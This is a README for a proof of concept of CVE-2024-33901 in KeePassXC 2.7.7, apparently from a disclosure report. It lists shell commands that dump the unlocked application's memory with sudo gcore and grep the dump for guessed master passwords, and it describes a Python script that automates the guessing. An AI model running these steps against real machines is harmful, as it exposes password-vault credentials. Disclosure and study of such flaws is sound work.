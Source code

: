 # CVE-2024-33901-ProofOfConcept

## This code is the one referenced under the KeePassXC section in the report

Short program that demonstrates the vulnerability CVE-2024-33901 in KeePassXC version 2.7.7

## How to replicate the vulnerability
1. Open KeePassXC and authenticate the database
2. While the database is authenticated, create a memory dump file for it

  This can be achieved by getting the PID, which can be done with this command:
  
    ps aux | grep keepassxc
  
  And then running this command: sudo gcore -o keepassxc_dump PID_HERE
  
  For example, if the PID that you got was 1234, then the command would have to be:
  
    sudo gcore -o keepassxc_dump 1234
  
3. Finally, you can run this command: cat keepassxc_dump.PID_HERE | strings | grep "password guess here"

  So if the PID was 1234, the command would be:

     cat keepassxc_dump.1234 | strings | grep "password guess here"

Once the memory dump file is created, the attack can be performed even if the database is locked again or if KeePassXC is closed.

The provided Python code performs all of these steps, and it attempts multiple password guesses based on the text files provided.
